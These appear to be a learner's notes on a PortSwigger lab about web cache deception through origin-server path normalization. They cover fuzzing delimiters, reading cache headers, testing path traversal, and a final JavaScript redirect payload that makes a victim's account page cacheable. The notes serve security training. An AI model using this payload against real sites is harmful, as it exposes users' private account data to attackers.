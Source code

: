 
https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-origin-server-normalization
#### Identify delimters
- Send through ffuf the differents delimiters on request with no cache oracle or method POST
- Send through ffuf the differents delimiters on request with cache oracle
- identify **delimiters used by the origin server but not the CDN**
![[Pasted image 20250405004435.png]]
### Identify normalization
#### CDN do not normalize
- Use a cacheable request 
	`/resources/images/blog.svg`
	```http
	HTTP/2 200 OK
	Content-Type: image/svg+xml
	X-Frame-Options: SAMEORIGIN
	Cache-Control: max-age=30
	Age: 0
	X-Cache: miss
```
- Use the request totally url-encoded
	`%2f%72%65%73%6f%75%72%63%65%73%2f%69%6d%61%67%65%73%2f%62%6c%6f%67%2e%73%76%67`
```http
HTTP/2 200 OK
Content-Type: image/svg+xml
X-Frame-Options: SAMEORIGIN
```
	The response lose the cache oracle, the origin server do map the request but the cdn do not like it

#### Origin server normalize
- use a not cacheable response. 
- use path traversal to see if you could dive in the directories
	- get `<origin_server_endpoint>`
	 ![[Pasted image 20250405120154.png]]
	- get `<origin_server_endpoint><path_traversal><origin_server_endpoint>`
	![[Pasted image 20250405120129.png]]
	The req is normalized.

### What we know
- The frontend do not normalize
- The origin server does it
as path normalization is not used for the cache CDN we should use a request with cache hit heade and use these delimiters to map to our arbirtary endpoint with sensitive data.
```js
document.location="https://0a68006f04a7234e817b2fcf00cb0080.web-security-academy.net/resources/labheader/css/academyLabHeader.css/../../../../my-account"
```